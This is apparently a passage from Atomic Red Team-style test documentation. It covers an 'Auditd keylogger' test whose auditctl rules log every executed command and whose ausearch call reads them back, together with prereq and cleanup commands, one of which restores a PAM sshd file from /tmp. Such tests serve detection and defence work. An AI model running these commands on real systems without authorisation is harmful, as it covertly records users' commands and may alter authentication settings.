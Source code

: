 #### Cleanup Commands:
```sh
cp -fv /tmp/sshd /etc/pam.d/
```



#### Dependencies:  Run with `sh`!
##### Description: This test requires sshd and auditd
##### Check Prereq Commands:
```sh
if [ ! -x "$(command -v sshd)" ]; then echo -e "\n***** sshd NOT installed *****\n"; exit 1; fi
if [ ! -x "$(command -v auditd)" ]; then echo -e "\n***** auditd NOT installed *****\n"; exit 1; fi
```
##### Get Prereq Commands:
```sh
echo ""
```




<br/>
<br/>

## Atomic Test #6 - Auditd keylogger
The linux audit tool auditd can be used to capture 32 and 64 bit command execution and place the command in the /var/log/audit/audit.log audit log.

**Supported Platforms:** Linux


**auto_generated_guid:** a668edb9-334e-48eb-8c2e-5413a40867af






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
auditctl -a always,exit -F arch=b64 -S execve -k CMDS 
auditctl -a always,exit -F arch=b32 -S execve -k CMDS
whoami; ausearch -i --start $(date +"%d/%m/%y %H:%M:%S")
```

#### Cleanup Commands:
```sh
systemctl restart auditd
```



#### Dependencies:  Run with `sh`!
##### Description: This test requires sshd and auditd
##### Check Prereq Commands:
```sh
if [ ! -x "$(command -v auditd)" ]; then echo -e "\n***** auditd NOT installed *****\n"; exit 1; fi
```
##### Get Prereq Commands:
```sh
echo ""
```
